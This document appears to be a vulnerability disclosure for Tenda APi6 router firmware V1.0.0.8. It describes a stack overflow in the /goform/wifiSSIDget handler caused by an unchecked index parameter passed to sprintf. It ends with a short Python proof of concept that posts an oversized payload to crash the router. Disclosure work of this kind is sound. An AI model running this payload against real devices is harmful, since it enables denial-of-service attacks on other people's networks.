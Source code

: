 # Tenda APi6 V1.0.0.8(3856) Stack Overflow
## Firmware information

Manufacturer's address:https://www.tenda.com.cn/

Firmware download address: https://www.tenda.com.cn/download/detail-2570.html

## Affected Version

<img width="1019" alt="image" src="https://github.com/daodaoshao/vol_tenda_i6_1/assets/9769854/fc20290f-e5e4-4e62-9609-b6077b2df1fc">

##  Vulnerability Details

 Vulnerability Location: /goform/wifiSSIDget

 the length of the ndex parameter is not verified, sprintf can cause stack overflow vulnerability, it can result in dos attacks on routers

 <img width="416" alt="image" src="https://github.com/daodaoshao/vol_tenda_i6_1/assets/9769854/3d553aaa-c697-4ef4-9316-00db720bc121">

The pages of the router 

<img width="416" alt="image" src="https://github.com/daodaoshao/vol_tenda_i6_1/assets/9769854/a9150774-f16b-4550-8864-3abf91eef125">

## POC 

import requests
from pwn import*

ip = "192.168.182.21" 
url = "http://" + ip + "/goform/wifiSSIDget"
print(url)

payload =b'a'*0x3000


cookie = {"Cookie":"user="}
data = {"index": payload,"wl_radio":0}
response = requests.post(url, cookies=cookie, data=data)
print(response.text)
print("HackAttackSuccess!")

 





